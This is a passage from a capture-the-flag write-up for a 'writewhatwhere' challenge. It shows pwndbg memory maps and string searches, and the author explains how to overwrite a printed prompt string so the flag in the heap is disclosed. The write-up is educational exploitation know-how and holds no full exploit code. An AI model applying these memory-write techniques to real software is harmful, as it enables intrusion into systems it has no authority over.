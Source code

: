     End of assembler dump.


We can see that automatically gdb recognizes where the flag will be... because from the description we understood that ASLR will not be a problem I disabled it so will be easier to grab offset. 
Speaking of offset here is `vmmap`
 

    pwndbg> vmmap
    LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
                 Start                End Perm     Size Offset File
        0x555555554000     0x555555555000 r--p     1000      0 /home/ctf/GOOGLE/writewhatwhere/chal
        0x555555555000     0x555555556000 r-xp     1000   1000 /home/ctf/GOOGLE/writewhatwhere/chal
        0x555555556000     0x555555557000 r--p     1000   2000 /home/ctf/GOOGLE/writewhatwhere/chal
        0x555555557000     0x555555558000 r--p     1000   2000 /home/ctf/GOOGLE/writewhatwhere/chal
        0x555555558000     0x555555559000 rw-p     1000   3000 /home/ctf/GOOGLE/writewhatwhere/chal
        0x555555559000     0x55555555a000 rw-p     1000      0 [heap]
        0x7ffff7c00000     0x7ffff7c28000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6
        0x7ffff7c28000     0x7ffff7dbd000 r-xp   195000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6
        0x7ffff7dbd000     0x7ffff7e15000 r--p    58000 1bd000 /usr/lib/x86_64-linux-gnu/libc.so.6
        0x7ffff7e15000     0x7ffff7e19000 r--p     4000 214000 /usr/lib/x86_64-linux-gnu/libc.so.6
        0x7ffff7e19000     0x7ffff7e1b000 rw-p     2000 218000 /usr/lib/x86_64-linux-gnu/libc.so.6
        0x7ffff7e1b000     0x7ffff7e28000 rw-p     d000      0 [anon_7ffff7e1b]
        0x7ffff7fa2000     0x7ffff7fa5000 rw-p     3000      0 [anon_7ffff7fa2]
        0x7ffff7fbb000     0x7ffff7fbd000 rw-p     2000      0 [anon_7ffff7fbb]
        0x7ffff7fbd000     0x7ffff7fc1000 r--p     4000      0 [vvar]
        0x7ffff7fc1000     0x7ffff7fc3000 r-xp     2000      0 [vdso]
        0x7ffff7fc3000     0x7ffff7fc5000 r--p     2000      0 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
        0x7ffff7fc5000     0x7ffff7fef000 r-xp    2a000   2000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
        0x7ffff7fef000     0x7ffff7ffa000 r--p     b000  2c000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
        0x7ffff7ffb000     0x7ffff7ffd000 r--p     2000  37000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
        0x7ffff7ffd000     0x7ffff7fff000 rw-p     2000  39000 /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
        0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
    0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]

The flag buffer is in the heap, as we expected (in particular base_heap+160),  so the content of that address will be written to the address we pass at scan, now we need to find a good candidate that show us the content of flag.txt...

I personally chose `dprintf(rax_11, "Give me an address and a length …", "Give me an address and a length …");` why u asking? It will be printed every time because the while loop and any other line of code inside the while loop doesn't show anything.

Now we search that string inside gdb 

    pwndbg> search "Give"
    Searching for value: 'Give'
    chal            0x5555555561e0 "Give me an address and a length just so:\n<address> <length>\nAnd I'll write it wherever you want it to go.\nIf an exit is all that you desire\nSend me nothing and I will happily expire\n"
    chal            0x5555555571e0 "Give me an address and a length just so:\n<address> <length>\nAnd I'll write it wherever you want it to go.\nIf an exit is all that you desire\nSend me nothing and I will happily expire\n"
    libc.so.6       0x7ffff7ddb846 'Give this help list'
    libc.so.6       0x7ffff7ddb860 'Give a short usage message'
